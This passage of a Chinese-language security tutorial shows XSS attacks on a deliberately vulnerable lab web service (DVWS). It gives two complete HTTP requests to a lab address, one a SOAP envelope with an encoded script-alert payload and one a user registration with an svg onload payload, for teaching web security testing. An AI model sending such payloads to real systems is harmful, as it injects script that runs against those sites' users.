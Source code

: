 ### XSS 攻击

跨站脚本 (XSS) 攻击发生在可能将恶意脚本注入应用程序并被受害者查看的地方，在 SOAP 中的 XSS 其实和传统的 Web 应用中的 XSS 也相差不大，只是数据包的构造方式有一些差别，在 DVWS 管理员用户搜索区域中存在 XSS 漏洞，我们可以发送 HTML 编码后的 JavaScript 到服务器端，例如：<script>alert(1)</script> ，如下是一个简易的发送示例：

```bash
POST /dvwsuserservice HTTP/1.1
Host: 192.168.204.160
Content-Length: 493
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Authorization: Bearer null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.204.160
Referer: http://192.168.204.160/admin.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&lt;script&gt;alert(1)&lt;/script&gt;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1705886707-4d6531b01d7623962bfaaa61bf74c7b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115755-17ca82a6-b748-1.png)  
有时候我们也可以多留意一下注册类的接口：

```bash
POST /api/v2/users HTTP/1.1
Host: 192.168.204.160
Content-Length: 60
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin"><svg/onload=alert(/a/)>&password=12345678
```
